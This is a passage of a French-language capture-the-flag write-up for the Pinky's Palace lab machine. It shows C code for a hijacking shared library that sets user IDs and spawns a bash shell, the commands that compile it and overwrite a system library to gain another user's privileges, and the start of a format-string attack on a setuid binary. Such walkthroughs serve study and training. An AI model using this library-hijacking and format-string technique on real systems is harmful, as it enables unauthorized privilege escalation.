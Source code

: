 ```nasm
0x0000072e      pop     ebx
0x0000072f      pop     esi
0x00000730      pop     ebp
0x00000731      lea     esp, [ecx - 4]
0x00000734      ret
```

Je me suis basé sur les prototypes des fonctions que `Cutter` affichait et j'ai écrit le code C suivant :

```c
#include <unistd.h>
#include <stdlib.h>

void psopt(void) {
        setreuid(1002, 1002);
        setregid(1002, 1002);
        system("/bin/bash");
}


void psbanner(void) {
        setreuid(1002, 1002);
        setregid(1002, 1002);
        system("/bin/bash");
}

void psoptin(int x) {
        setreuid(1002, 1002);
        setregid(1002, 1002);
        system("/bin/bash");
}
```

Ça a marché du premier coup :

```console
pinksec@pinkys-palace:/tmp$ gcc -o libpinksec.so lib.c -shared -fPIC -Wl,-soname -Wl,libhook.so
pinksec@pinkys-palace:/tmp$ cp /lib/libpinksec.so /tmp/back_libpinksec.so
pinksec@pinkys-palace:/tmp$ cat libpinksec.so > /lib/libpinksec.so
pinksec@pinkys-palace:/tmp$ ~/bin/pinksecd 
bash: /home/pinksec/.bashrc: Permission denied
pinksecmanagement@pinkys-palace:/tmp$ id
uid=1002(pinksecmanagement) gid=1001(pinksec) groups=1001(pinksec)
```

## Cétautomatix

Avec ce nouvel utilisateur, on peut accéder au binaire `/usr/local/bin/PSMCCLI` vu précédemment qui est setuid `pinky`.

Il est vulnérable à une exploitation de chaine de format :

```nasm
argshow (const char *format);
; arg const char *format @ stack + 0x4
0x0804849b      push    ebp
0x0804849c      mov     ebp, esp
0x0804849e      push    ebx
0x0804849f      sub     esp, 4
0x080484a2      call    __x86.get_pc_thunk.bx ; sym.__x86.get_pc_thunk.bx
0x080484a7      add     ebx, 0x1b59
0x080484ad      sub     esp, 0xc
0x080484b0      lea     eax, [ebx - 0x1a30]
0x080484b6      push    eax        ; const char *format
0x080484b7      call    printf     ; sym.imp.printf ; int printf(const char *format)
```